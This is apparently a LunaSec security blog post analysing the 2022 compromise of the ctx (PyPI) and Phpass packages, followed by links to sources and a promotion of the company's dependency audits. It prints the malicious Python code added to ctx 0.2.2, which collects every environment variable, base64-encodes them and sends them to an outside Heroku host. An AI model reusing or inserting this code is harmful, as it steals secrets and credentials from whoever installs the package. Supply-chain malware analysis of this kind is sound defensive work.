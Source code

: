 ```yaml
---
title: "How two Python and PHP dependencies, ctx and Phpass, became malware that stole secrets and credentials"
description: A security expert's analysis of the malicious code added to ctx and Phpass, Python and PHP dependencies, that turned them into malware by sending environment variables and credentials to a third party attacker.
slug: ctx-and-phpass-package-malware
date: 2022-05-24
keywords: [dependencies, ctx, phpass]
tags: [malware, dependencies]
authors: [chris, free, gabe]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

# Popular packages, `ctx` and `Phpass`, compromised

After 7 years, the Python package `ctx` on PyPi received a version update.
A malicious version of `ctx` was published under `0.2.2` as an update to the previous `0.1.2`.

In this post we'll be reviewing the malicious code that was introduced to both `ctx` and `Phpass`.

<!--truncate-->

## Malicious Code in `ctx` version `0.2.2`

The following code was added to the package:

```python
def __init__(self):
    self.sendRequest()

    # code that performs dict access
    # please DO NOT RUN THIS CODE !

     def sendRequest(self):
        string = ""
        for _, value in environ.items():
            string += value+" "

        message_bytes = string.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')

        response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)
```

## `Phpass` contains identical malware

The library `Phpass` also received identical malicous code around the same time.

<a href="https://twitter.com/s0md3v/status/1529005758540808192" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/ctx-Twitter-Screenshot.png" alt="Screenshot of ctx Twitter tweet" />
</a>


<a href="https://twitter.com/s0md3v/status/1529010306466615296" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/Phpass-Twitter-Screenshot.png" alt="Screenshot of Phpass Twitter tweet" />
</a>

## External References

- [Archived version](https://archive.ph/xTUEN) of package versions.

- [Initial post](https://old.reddit.com/r/Python/comments/uumqmm/ctx_new_version_released_after_7_years_750k) observing the package had been updated.

- [Reddit post](https://old.reddit.com/r/Python/comments/uwhzkj/i_think_the_ctx_package_on_pypi_has_been_hacked/) with details about the malicious changes to ctx.

- [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk) with details about timeline.

## For a limited time, claim an expert security review

Though perhaps unconventional, our team of Security Engineers has been working with startups to audit their dependencies and help them manage their security roadmap.

Why? It's simple: By working with us, we also learn about the common problems that companies face while shipping software. Helping you enables us to make our Open Source software better.

To get started, send us an email at [deps@lunasec.io](mailto:deps@lunasec.io) or [schedule a 15 minute call](https://cal.com/lunasec/15min) with one of our engineers.

### Who are we?

If you've heard of [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) or [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities), then you're familiar with our work already! We're the security experts that gave those vulnerabilities their name by providing clear, concise advice and [building tools to resolve them](https://github.com/lunasec-io/lunasec).

Since then, we've interviewed hundreds of companies to help us build [LunaTrace](https://github.com/marketplace/lunatrace-by-lunasec).

What is LunaTrace? It's our Open Source security platform that automatically discovers vulnerabilities in your dependencies and gives you expert security guides with remediation steps and automated patches.

Whether you're a developer or a security professional, we'd love to hear from you! Drop us a line by [joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-19wb6qg8w-OC1ktWO2LkG8lL3fpLD3AA) or trying out LunaTrace on your [GitHub repo for free](https://github.com/marketplace/lunatrace-by-lunasec).
